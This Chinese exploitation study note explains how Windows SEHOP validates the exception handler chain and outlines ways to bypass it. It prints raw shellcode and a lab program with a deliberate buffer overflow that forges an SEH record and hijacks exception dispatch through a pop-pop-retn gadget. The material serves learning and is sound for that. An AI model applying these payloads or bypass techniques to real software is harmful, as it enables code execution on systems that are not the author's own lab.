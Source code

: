```yaml
---
title: 漏洞利用学习笔记-020-SEHOP简介
description: SEHOP的介绍和一点简单攻击
date: 2020-11-28 15:38:00+0800
categories:
    - 漏洞利用
tags:
    - Windows
    - 结构化异常处理覆盖保护
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/漏洞利用学习笔记-020-sehop简介/)

## 简介

SEHOP的核心任务就是检查S.E.H链的完整性，在程序转入异常处理前SEHOP会检查S.E.H链上最后一个异常处理函数是否为系统固定的终极异常处理函数。如果是，则说明这条S.E.H链没有被破坏，程序可以去执行当前的异常处理函数；如果检测到最后一个异常处理函数不是，则说明S.E.H链被破坏，可能发生了S.E.H覆盖攻击，程序将不会去执行当前的异常处理函数

> SEHOP验证伪代码

```cpp
if (process_flags & 0x40 == 0)  // 如果没有SEH记录则不进行检测
{
    if (record != 0xFFFFFFFF)  // 开始检测
    {
        do
        {
            if (record < stack_bottom || record > stack_top) // SEH 记录必须位于栈中
                goto corruption;
            if ((char *)record + sizeof(EXCEPTION_REGISTRATION) > stack_top) // SEH 记录结构需完全在栈中
                goto corruption;
            if ((record & 3) != 0) // SEH记录必须4字节对齐
                goto corruption;
            handler = record->handler;
            if (handler >= stack_bottom && handler < stack_top) // 异常处理函数地址不能位于栈中
                goto corruption;
            record = record->next;
        } while (record != 0xFFFFFFFF); // 遍历S.E.H链
    }
    if ((TEB->word_at_offset_0xFCA & 0x200) != 0)
    {
        if (handler != &FinalExceptionHandler) // 核心检测，地球人都知道，不解释了
        goto corruption;
    }
}
```

## 攻击思路

### 攻击返回地址

> 如果此函数启用了SEHOP但是没有启用GS或者函数刚好没有启用GS那么直接攻击返回地址即可

### 攻击虚函数

> SEHOP只保护SEH，但是虚函数表它并没有保护，攻击虚函数依旧可以成功

### 利用未启用SEHOP的模块

> 微软为一些加密壳禁用了SEHOP，例如穿山甲Armadilo

- 操作系统会根据PE头中`MajorLinkerVersion`和`MinorLinkerVersion`两个选项来判断是否为程序禁用SEHOP。例如，我们可以将这两个选项分别设置为`0x53`和`0x52`来模拟经过`Armadilo`加壳的程序，从而达到禁用SEHOP的目的
- Windows 7以及以后的系统中`PEB_LDR_DATA`指向的第二个模块被`KernelBase.dll`占据，所以shellcode应该修改一下

```c
Shellcode_for_windows7=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09"
"\x8B\x09" // 在这增加机器码\x8B\x09，它对应的汇编为mov ecx,[ecx]
"\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
;
```

### 伪造SEH链表

> 前提：ASLR不启用

- 思路
  - 通过未启用`SafeSEH`的`SEH_NOSafeSEH_JUMP.dll`来绕过`SafeSEH`
  - 通过伪造S.E.H链，造成S.E.H链未被破坏的假象来绕过`SEHOP`
  - `SEH_NOSafeSEH`中的test函数存在一个典型的溢出，即通过向str复制超长字符串造成str溢出，进而覆盖程序的S.E.H信息
  - 使用`SEH_NOSafeSEH_JUMP.DLL`中的`pop pop retn`指令地址覆盖异常处理函数地址，然后通过制造除0异常，将程序转入异常处理
  - 通过劫持异常处理流程，程序转入`SEH_NOSaeSEH_JUMP.DLL`中执行`pop pop retn`指令，在执行`retn`后程序转入`shellcode`执行

- 代码

```cpp
#include <string.h>
#include <windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x14\xFF\x12\x00" // address of last seh record
"\x12\x10\x12\x11" // address of pop pop retn in No_SafeSEH module
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09"
"\x8B\x09" // 在这增加机器码\x8B\x09，它对应的汇编为mov ecx,[ecx]
"\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90"
"\xFF\xFF\xFF\xFF" // the fake seh record
"\x75\xA8\xF7\x77"
;

DWORD MyException(void)
{
    printf("There is an exception");
    getchar();
    return 1;
}

void test(char * input)
{
    char str[200];
    memcpy(str, input, 412);
    int zero = 0;
    __try
    {
        zero = 1 / zero;
    }
    __except(MyException()){}
}

int main()
{
    HINSTANCE hInst = LoadLibrary(_T("SEH_NOSaeSEH_JUMP.dll")); // load No_SafeSEH module
    char str[200];
    test(shellcode);
    return 0;
}
```
